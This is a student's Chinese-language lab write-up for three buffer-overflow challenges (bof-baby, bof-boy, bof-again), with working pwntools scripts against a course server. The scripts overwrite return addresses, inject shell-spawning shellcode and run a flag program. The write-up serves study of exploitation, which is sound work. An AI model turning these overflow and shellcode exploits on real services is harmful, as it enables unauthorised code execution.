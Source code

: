 解雲暄	3190105871

### 01 bof-baby
用 gdb 查看 `hear()` 函数的汇编代码：
![image.png](./assets/1647871057197-878a0895-1b4b-4c47-b633-472fa1bcd2ef.png)
可以看到，相关的栈布局是：<br />![77F10AF3816E2743B1CAC3FDE8152E7A.png](./assets/1647877742094-875f2daa-1874-4d3b-b3e5-d16dd9755c9f.png)
因此，我们只需要构造一个长度为 62 的字符串，使得其最后两个 4 字节的内存取值相等。如：<br />`01234567890123456789012345678901234567890123456789000000000000`

通过代码连接远端：
```python
from pwn import *
context.log_level = 'DEBUG'     # 将pwntools的日志级别记为调试
conn = remote("116.62.228.23", 10100)       # 连接到远程目标
conn.interactive()              # 打开交互模式操作远程shell
```

输入对应数据，就 hack 了！
![image.png](./assets/1647877844886-df28f658-5b74-4816-87f7-4b4611b9d960.png)
现在可以访问 shell 了，访问 flag.exe：
![image.png](./assets/1647877893845-9599990e-2d59-4c5e-8a3e-5cae2a122dd6.png)
得到结果！
![image.png](./assets/1647877662764-385dcc66-60c9-489f-89b6-3ac3a9db1034.png)



### 02 bof-boy
参考了 [基本 ROP - ret2text | CTF Wiki](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2text)。

用 gdb 查看代码，分析栈结构：
![image.png](./assets/1647882117916-9127470c-f180-4551-9311-e0ed15b084e3.png)
用工具查看调用 shell 语句的位置：
![image.png](./assets/1647882244009-feba2245-6218-4af2-a334-8688fcb7df2d.png)
因此我们只需要将栈中的返回地址改为该语句的位置，即可实现当函数 `func()` 返回时跳转到运行 shell 的语句，即：<br />![80B97A0B7A48B33F6E7FBC731C6F73DA.png](./assets/1647882330109-eab65bfc-f929-46c2-b1fd-ba2e5f52f164.png) <br />因此可以设计出如下代码：
```cpp
from pwn import *
context.log_level = 'DEBUG'
conn = remote("116.62.228.23", 10101)

conn.recvuntil("Please input your StudentID:\n")
conn.sendline("3190105871")

// 需要发送 0x48, 即 72 个字节的字符串
conn.recvuntil("data:\n")
conn.sendline("72")

target = 0x080485ee	// 目标地址
conn.recvuntil("data:\n")
// 发送 0x44 个 0，然后将 ret addr 覆盖为 target
conn.sendline(b'0' * 0x44 + p32(target))

// 运行 flag.exe
conn.sendline("./flag.exe 3190105871")
conn.interactive()
```
运行可得到正确结果：
![image.png](./assets/1647881962754-9ae9ff68-f1d5-4242-9e32-2d9df03209b2.png)


### 03 bof-again
参考了 [基本 ROP - ret2shellcode | CTF Wiki](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2shellcode)。

注意到 elf 文件没有 NX 保护：
![image.png](./assets/1647883253918-ef47ef3d-7210-473c-9486-66040ab2e775.png)
基本思路是将 shellcode 写入 str，然后在 func 中篡改返回地址使其跳转到 str 运行 shellcode。

观察到 str 位于 0x804a040 位置：
![image.png](./assets/1647883427452-915de53b-101d-46b5-b36f-b81e37d66ed5.png)

使用类似前两个实验的方法获知 func 函数内的栈布局：<br />![356C476BC1AFD0A41F137660F6B6C11A.png](./assets/1647884366509-f21cdc66-bbff-4212-9fe0-b87b7acebed5.png)
刚开始本来打算像下图中绿色的那样，在 0~31 的位置放 shellcode，在 32~35 放 ret addr；后来发现 shellcode 占 44 个字节，所以只能放到 36 后面去了，即下图中橙色的样子：

![6664FB5DD975DEA2E694B1E3B0C6975A.png](./assets/1647884610501-9205f576-f257-4f9e-abce-868797b68e5c.png)
因此我们设计出这样的代码：
```python
from pwn import *
context.log_level = 'DEBUG'
conn = remote("116.62.228.23", 10102)

conn.recvuntil("Please input your StudentID:\n")
conn.sendline("3190105871")

shellcode = asm(shellcraft.sh())
target = 0x0804a040 + 36
conn.recvuntil("Give me something to overflow me! \n")
conn.sendline(b'0' * 32 + p32(target) + shellcode)

conn.sendline("./flag.exe 3190105871")
conn.interactive()
```
其中，target 是新的 ret addr，在 str 向后偏移 36 个字节的位置；str 前 32 个字节为字符 '0' 用于填充，后面的 4 个字节是 target 用于覆盖 ret addr，然后是 shellcode。

运行，可以得到 flag：
![image.png](./assets/1647884230399-2a0c6d0f-f802-4c91-a8c9-056b1f7a21be.png)
